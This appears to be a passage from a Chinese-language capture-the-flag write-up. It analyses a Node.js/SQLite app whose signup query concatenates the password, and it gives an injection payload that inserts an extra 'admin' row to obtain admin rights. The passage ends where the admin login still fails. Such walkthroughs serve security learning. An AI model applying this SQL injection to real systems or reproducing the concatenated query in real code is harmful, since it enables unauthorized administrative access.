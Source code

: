 只有当 `req.session.is_admin` 为 true (也就是 1) 时才能够执行 `npm i`

user.js 中的部分代码

```js
db.get("SELECT * FROM users WHERE NAME = ? AND PASSWORD = ?", [username, password], function(err, row) {
    if (err) {
        console.log(err);
        return res.json({"code" : -1, "message" : "Error executing SQL query"});
    }
    if (!row) {
        return res.json({"code" : -1 , "msg" : "Username or password is incorrect"});
    }
    req.session.is_login = 1;
    if (row.NAME === "admin" && row.PASSWORD == password && row.ACTIVE == 1) {
        req.session.is_admin = 1;
    }
    return res.json({"code" : 0, "message" : "Login successful"});
});
```

当 `row.NAME === "admin" && row.PASSWORD == password && row.ACTIVE == 1` 三个条件同时满足时才会设置 `req.session.is_admin = 1`

user.js 中大部分 sql 语句都是以预编译的方式执行的, 但仔细找找还是能发现漏网之鱼

```js
var sql = `INSERT INTO users (NAME, PASSWORD, ACTIVE) VALUES (?, '${password}', 0)`;
db.run(sql, [username], function(err) {
    if (err) {
        console.log(err);
        return res.json({"code" : -1, "message" : "Error executing SQL query " + sql});
    }
    return res.json({"code" : 0, "message" : "Sign up successful"});
});
```

注册时传入了 password, 而 sql 中的 `${password}` 其实也是对字符串直接进行了拼接, 可以任意构造 sql 语句

数据库是 sqlite, 当 password 传入 `test',1) --` 时尽管可以满足 `row.ACTIVE == 1`, 但是 `row.NAME === "admin"` 依然不满足

盯着 sql 语句看的时候突然想起来 insert 语句中的 values 关键词是不是可以插入多条数据?

```sql
INSERT INTO users (NAME, PASSWORD, ACTIVE) VALUES ('test', 'test', 0), ('admin', 'admin', 1);
```

本地测试执行成功, 于是构造 payload 如下

```
test',0),('admin','admin',1)--
```

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202209282054273.png)

然后用 admin/admin 登录时提示 `Password is not valid.`
